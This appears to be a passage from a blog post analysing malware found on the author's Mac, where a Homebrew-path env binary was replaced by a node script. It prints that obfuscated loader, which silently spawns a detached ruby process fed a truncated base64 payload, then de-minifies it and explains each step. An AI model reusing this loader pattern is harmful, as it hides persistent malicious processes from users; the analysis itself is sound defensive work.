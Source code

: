 ```shell
```

In my case, it was not showing anything, why was that?

Turns out, the `env` in use was not `/usr/bin/env` but `/usr/local/bin/env`, which appeared fine, because it's where the `homebrew` packages are installed...

I looked at `/usr/local/bin/env`, the last modification date was approximately 1 week old.

## Here comes the node.

![Batman](/images/posts/vim-anti-keylogger/batman.gif)

Here's the content (truncated):

```javascript
##!/usr/local/bin/node
try{let c=require("child_process").spawn("ruby", ["-W0"],{detached:true,stdio:["pipe","ignore","ignore"]});c.unref();c.stdin.end("YHBncmVwIC1meCAicnVieSAtV[...]IGVuZA==", "base64");}catch(e){}
```

So I unwrapped the code and I started to feel that something was awfully wrong.

```javascript
##!/usr/local/bin/node
try{

  let c = require("child_process")
    .spawn(
      "ruby",
      ["-W0"],
      {
        detached: true,
        stdio: ["pipe","ignore","ignore"]
      }
  );

  c.unref();

  c.stdin.end("YHBncmVwIC1meCAicnVieSAtV...IGVuZA==", "base64");

} catch(e) {

}
```

Quick decomposition:

- `"ruby", ["-W0"]` spawns a silent ruby instance (hid any warning).
- `detached: true` makes the ruby instance run in the background even after the node script finishes.
- `stdio: ["pipe","ignore","ignore"]` only enables `stdin`.
- `c.unref();` makes ruby's parent (this node script) not wait for its return to continue, effectively making it permanent.
- `c.stdin.end("...", "base64");` sends the string with `base64` encoding to the ruby instance.

